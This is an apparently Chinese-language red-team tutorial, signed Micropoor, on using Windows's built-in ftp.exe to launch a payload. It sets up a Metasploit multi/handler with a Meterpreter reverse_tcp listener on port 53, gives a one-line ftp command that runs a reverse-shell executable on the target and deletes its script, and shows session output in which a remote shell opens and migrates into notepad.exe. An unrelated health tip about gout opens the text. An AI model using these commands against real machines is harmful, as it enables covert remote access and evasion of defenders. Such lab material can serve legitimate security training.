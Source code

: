 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Ftp.exe简介：

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

**说明：**Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

Windows 2003 默认位置：
```bash
C:\Windows\System32\ftp.exe
C:\Windows\SysWOW64\ftp.exe
```

Windows 7 默认位置：
```bash
C:\Windows\System32\ftp.exe
C:\Windows\SysWOW64\ftp.exe
```

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.3 Windows 7

### 配置攻击机msf：

**注：**需设置参数 
`set AutoRunScript migrate -f`  

```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp):

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > set AutoRunScript migrate ‐f

AutoRunScript => migrate ‐f

msf exploit(multi/handler) > exploit 
```
![](media/ba49d6ee6a8ab9586614befb0cf9c5b5.jpg)

### 靶机执行：

```bash
echo !C:\Users\John\Desktop\rev_x86_53_exe.exe > o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o
```

```bash
msf exploit(multi/handler) > set AutoRunScript migrate ‐f
AutoRunScript => migrate ‐f
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.3
[*] Meterpreter session 10 opened (192.168.1.4:53 ‐> 192.168.1.3:5530)
at 2019‐01‐21 05:14:57 ‐0500
[*] Session ID 10 (192.168.1.4:53 ‐> 192.168.1.3:5530) processing AutoRunScript 'migrate ‐f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: rev_x86_53_exe.exe (8832)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 8788 
```

![](media/949fe91f87123f2b6767a38e2dddc7db.jpg)

>   Micropoor
